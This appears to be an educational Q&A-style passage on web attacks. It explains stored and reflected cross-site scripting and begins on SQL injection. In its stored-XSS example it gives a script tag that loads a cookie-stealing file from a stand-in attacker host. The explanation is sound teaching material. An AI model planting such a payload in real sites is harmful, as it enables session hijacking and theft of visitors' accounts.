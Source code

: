 <p>Depending on the severity of the attack, user accounts may be compromised, Trojan horse programs activated and page content modified, misleading users into willingly surrendering their private data. Finally, session cookies could be revealed, enabling a perpetrator to impersonate valid users and abuse their private accounts.</p>

<p>Cross site scripting attacks can be broken down into two types: stored and reflected.</p>

<p>Stored XSS, also known as persistent XSS, is the more damaging of the two. It occurs when a malicious script is injected directly into a vulnerable web application.</p>

<p>Reflected XSS involves the reflecting of a malicious script off of a web application, onto a user’s browser. The script is embedded into a link, and is only activated once that link is clicked on.</p>

### _2. What is stored cross site scripting -_
<p>To successfully execute a stored XSS attack, a perpetrator has to locate a vulnerability in a web application and then inject malicious script into its server (e.g., via a comment field).</p>

<p>One of the most frequent targets are websites that allow users to share content, including blogs, social networks, video sharing platforms and message boards. Every time the infected page is viewed, the malicious script is transmitted to the victim’s browser.</p>

### _3. Stored XSS attack example -_
<p>While browsing an e-commerce website, a perpetrator discovers a vulnerability that allows HTML tags to be embedded in the site’s comments section. The embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code every time the page is opened.</p>

<p>The attacker adds the following comment: Great price for a great item! Read my review below</p>

``` html
<script src=”http://hackersite.com/authstealer.js”> </script>
```

<p>From this point on, every time the page is accessed, the HTML tag in the comment will activate a JavaScript file, which is hosted on another site, and has the ability to steal visitors’ session cookies.</p>

<p>Using the session cookie, the attacker can compromise the visitor’s account, granting him easy access to his personal information and credit card data. Meanwhile, the visitor, who may never have even scrolled down to the comments section, is not aware that the attack took place.</p>

<p>Unlike a reflected attack, where the script is activated after a link is clicked, a stored attack only requires that the victim visit the compromised web page. This increases the reach of the attack, endangering all visitors no matter their level of vigilance.</p>

<p>From the perpetrator’s standpoint, persistent XSS attacks are relatively harder to execute because of the difficulties in locating both a trafficked website and one with vulnerabilities that enables permanent script embedding.</p>
<br />

<h2><b><i>Question :- SQL (Structured query language) Injection?</i></b></h2>
<h3><b><i>Answer - </i></b></h3>

### _1. What is SQL injection -_
<p>SQL injection, also known as SQLI, is a common attack vector that uses malicious SQL code for backend database manipulation to access information that was not intended to be displayed. This information may include any number of items, including sensitive company data, user lists or private customer details.</p>
